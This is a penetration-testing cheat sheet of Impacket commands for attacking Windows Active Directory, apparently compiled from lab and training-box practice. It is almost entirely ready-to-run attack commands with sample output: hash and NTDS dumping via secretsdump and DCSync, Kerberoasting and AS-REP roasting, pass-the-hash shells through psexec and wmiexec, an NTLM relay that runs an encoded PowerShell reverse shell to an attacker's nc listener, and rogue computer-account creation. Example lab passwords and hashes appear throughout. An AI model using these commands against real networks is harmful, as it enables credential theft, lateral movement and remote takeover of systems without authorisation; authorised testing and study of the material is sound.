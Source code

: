 # impacket
- <https://github.com/fortra/impacket>

Impacket is a collection of Python classes for working with network protocols.

Focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself.








```bash
impacket-smbclient.py [domain]/[user]:[password/password hash]@[Target IP Address] # we connect to the server rather than a share

impacket-lookupsid.py [domain]/[user]:[password/password hash]@[Target IP Address] # User enumeration on target

impacket-services.py [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] # service enumeration


impacket-secretsdump.py [domain]/[user]:[password/password hash]@[Target IP Address]  # Dumping hashes on target



impacket-GetUserSPNs.py [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip <IP> -request  # Kerberoasting, and request option dumps TGS
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100 -request
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request



impacket-GetNPUsers.py test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #Asreproasting, need to provide usernames list







##RCE
impacket-psexec.py test.local/john:password123@10.10.10.1
impacket-psexec.py -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-wmiexec.py test.local/john:password123@10.10.10.1
impacket-wmiexec.py -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-smbexec.py test.local/john:password123@10.10.10.1
impacket-smbexec.py -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-atexec.py test.local/john:password123@10.10.10.1 <command>
impacket-atexec.py -hashes lmhash:nthash test.local/john@10.10.10.1 <command>

```
























## PtH

```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b 
Administrator@192.168.50.212


C:\Windows\system32> whoami
nt authority\system
```

```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212


C:\>whoami
files02\administrator
```


We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell 
as the user we used for authentication. On Kali, we would use `impacket-wmiexec` 
along with the arguments we used for `impacket-psexec`.

## wmiexec
```
impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"


# Impacket's wmiexec.py can be used to get a shell
impacket-wmiexec [DOMAIN]/[USERNAME]:[PASSWORD]@[IP]
impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.129.208.12
```







## Relaying Net-NTLMv2

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc [ENCODED REVERSER POWERSHELL]
```


And on the ATTACKER MACHINE start a `nc` listener on the port the reverse shell is pointing at.










##  SPN
SPNs that are running under a user account:

```
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100 -request

GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
```








## AS-REP Roasting

```
# Just list users with "Do not require Kerberos preauthentication" enabled

impacket-GetNPUsers [DOMAIN/[USERNAME (opt):PASSWORD (opt)]] -dc-ip [DOMAIN CONTROLLER IP]

impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] corp.com/pete



# get the hash
impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] -request -outputfile [OUTPUT FILE NAME] corp.com/pete
```

This will show the user account option "Do not require Kerberos preauthentication" enabled, meaning it's vulnerable to AS-REP Roasting.





## Kerberoasting

Use `impacket-GetUserSPNs` with the IP of the domain controller as the argument for `-dc-ip`.

Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash.

As before, we can use `-request` to obtain the TGS and output them in a compatible format for Hashcat.


```
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd -request

sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

NOTE: if `impacket-GetUserSPNs` throws the error "KRB_AP_ERR_SKEW(Clock skew too great)" we need to synchronize the time of the Kali machine with the domain controller with `ntpdate` or `rdate`.





## dcsync

impacket-secretsdump on our non-domain joined Kali machine

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.166.70


# Output
...
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
# This is the hash: 08d7a47a6f9f66b97b1bae4178747494
...
```












## MSSQL
```
impacket-mssqlclient ARCHETYPE/sql_svc@${ip} -windows-auth

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```




## PSExec
```
impacket-psexec administrator@${ip}
python3 psexec.py administrator@{TARGET_IP}
```







## add computer
```
impacket-addcomputer '[DOMAIN]/[USERNAME]' -method [METHOD] -computer-name '[NEW COMPUTER_NAME]' -computer-pass '[NEW COMPUTER_PASSWORD]' -dc-ip [DC_IP_ADDRESS]


impacket-addcomputer 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' -computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.10.11.222

```
















